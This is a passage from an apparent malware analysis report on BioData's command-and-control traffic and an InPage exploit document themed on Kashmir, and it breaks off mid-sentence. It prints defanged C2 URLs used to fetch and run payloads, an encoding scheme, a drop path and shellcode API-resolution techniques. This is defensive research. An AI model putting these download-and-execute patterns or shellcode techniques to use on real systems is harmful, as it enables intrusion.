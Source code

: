 Figure 7 HTTP POST request by BioData
 
GET requests are made in a slightly different fashion. These requests contain an empty User-Agent, and are also found to be missing a number of HTTP headers that are commonly seen.
 

Figure 8 HTTP GET request by BioData
 
Unlike the POST requests, the malware both looks for and makes use of the response given, if any, by the C2 server. The malware parses any response given by first hex-decoding it. It then base64-decodes the resulting string. The final string is used to form a subsequent GET request.
If for instance, the malware responded with a decoded string of ‘malware.exe’, the subsequent GET request would look like the following:

http://errorfeedback[.]com/MarkQuality455/bzGwXILtkMRZaJxzciXAeCYviduBuy/malware.exe

The request above uses the same victim identifier that has been observed in the previous examples provided.
This hypothetical ‘malware.exe’ request contains the raw contents of the payload that BioData will drop to disk and execute. The contents are placed in the following file path for this hypothetical:

%USERPROFILE%\Document\malware.exe

Finally, after this dropped payload is successfully executed, the malware will send a GET request such as the following:

http://errorfeedback[.]com/MarkQuality455/developerbuild.php?f=62574673643246795a53356c654755&b=bzGwXILtkMRZaJxzciXAeCYviduBuy

In the above example, the ‘b’ parameter is the victim identifier, and the ‘f’ parameter is the string of ‘malware.exe’ after it has been base64-encoded and hex-encoded. This request alerts the attack that the hypothetical payload of ‘malware.exe’ has been run.

Tehreek-E-Kashmir Mujahaid List.inp
We identified this malicious InPage document as having the following attributes:



SHA256
3e410397955d5a127182d69e019dbc8bbffeee864cd9c96e577c9c13f05a232f


Original Filename
Tehreek-E-Kashmir Mujahaid List.inp



 
Unfortunately, no decoy document was included with this exploit file. However, the filename provides clues as to the context that may have been present when this file was delivered to the intended recipient. The phrase ‘Tehreek-E-Kashmir’ is most likely related to the conflict in the Kashmir region of India. Additionally, the term ‘Mujahaid’ may be a misspelling of the word ‘Mujahid’, a term used to describe an individual engaged in Jihad.
This particular InPage shellcode looks to be near identical to the two others previously discussed, however, it appears as though the attackers simply partially overwrote the original shellcode that was present to substitute their own. This results in the shellcode acting as a downloader, instead of loading an embedded payload. We can see the modifications visually in the following image:

Figure 9 Differences between InPage exploit documents
 
In the image above, the ‘Cyber Advisory No 91.inp’ exploit file has the large additional size, as it included the payload. The ‘Tehreek-E-Kashmir Mujahaid List.inp’ exploit file instead has removed this. However, original artifacts from the original shellcode are still present, including the function that loads Microsoft Windows API calls using the unique hashing algorithm.
The shellcode begins by iterating through the Process Environment Block (PEB), searching for a loaded module that has a ‘3’ in the 7th position. In other words, the shellcode uses a simple trick to search for kernel32.dll. It proceeds to iterate through kernel32’s functions, looking for the GetProcAddress function. In order to find this function it will compare the first four letters against ‘GetP’, and the third set of four letters against ‘ddre’.
The shellcode then gets the address of the WinExec function, which in turn is used to execute the following command:
